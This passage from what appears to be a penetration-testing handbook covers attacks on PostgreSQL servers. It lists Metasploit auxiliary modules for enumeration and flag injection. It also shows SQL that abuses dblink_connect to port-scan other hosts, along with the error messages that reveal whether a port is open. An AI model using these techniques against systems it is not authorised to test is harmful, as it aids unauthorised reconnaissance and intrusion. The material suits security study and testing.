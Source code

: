 > [!WARNING]
> If running **`\list`** you find a database called **`rdsadmin`** you know you are inside an **AWS postgresql database**.

For more information about **how to abuse a PostgreSQL database** check:

{{#ref}}
../pentesting-web/sql-injection/postgresql-injection/
{{#endref}}

## Automatic Enumeration

```
msf> use auxiliary/scanner/postgres/postgres_version
msf> use auxiliary/scanner/postgres/postgres_dbname_flag_injection
```

### [**Brute force**](../generic-hacking/brute-force.md#postgresql)

### **Port scanning**

According to [**this research**](https://www.exploit-db.com/papers/13084), when a connection attempt fails, `dblink` throws an `sqlclient_unable_to_establish_sqlconnection` exception including an explanation of the error. Examples of these details are listed below.

```sql
SELECT * FROM dblink_connect('host=1.2.3.4
                              port=5678
                              user=name
                              password=secret
                              dbname=abc
                              connect_timeout=10');
```

- Host is down

`DETAIL: could not connect to server: No route to host Is the server running on host "1.2.3.4" and accepting TCP/IP connections on port 5678?`

- Port is closed

```
DETAIL:  could not connect to server: Connection refused Is  the  server
running on host "1.2.3.4" and accepting TCP/IP connections on port 5678?
```

- Port is open

```
DETAIL:  server closed the connection unexpectedly This  probably  means
the server terminated abnormally before or while processing the request
```

or

```
DETAIL:  FATAL:  password authentication failed for user "name"
```
